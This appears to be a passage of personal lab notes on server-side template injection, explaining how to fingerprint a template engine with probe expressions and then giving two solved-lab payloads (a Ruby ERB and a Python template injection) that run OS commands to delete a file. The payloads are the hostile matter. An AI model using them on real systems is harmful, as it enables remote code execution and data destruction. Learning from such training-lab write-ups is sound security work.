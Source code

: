\documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
One of my favorites. SSTI is a direct road to RCE. Complexity can only
arise when searching for the language in which the code was written, for
this I used a small tip to narrow the range of technologies: at the
exploration stage, we iterate over template expressions
\passthrough{\lstinline!(\{\{7*7\}\}, $\{7*7\},<\% = 7*7 \%>, $\{\{7*7\}\}, \#\{7*7\}, *\{7*7\})!}
and if, for example, we got the expression
\passthrough{\lstinline!<\%= 7*7 \%>!} go to
\href{https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection}{HackTricks}
and look for all technologies that use this expression. The method, of
course, has a big crack in the form of the most common expression
\passthrough{\lstinline!\{\{7*7\}\}!}, here only God can tell you what
kind of technology it is. Again, do not hesitate to scan with Burp,
maybe it can tell you what technology is used.

Arises at View Details with reflected phrase \textbf{Unfortunately this
product is out of stock}\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-9}

\subsubsection{1. Basic server-side template
injection}\label{1-basic-server-side-template-injection}

\begin{quote}
Ruby
\end{quote}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<%= system("rm+morale.txt") %>
\end{Verbatim}

\subsubsection{2. Basic server-side template injection (code
context)}\label{2-basic-server-side-template-injection-code-context}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
blog-post-author-display=user.first_name}}{%+import+os+%}{{os.system('rm+morale.txt')}}
\end{Verbatim}
\end{document}
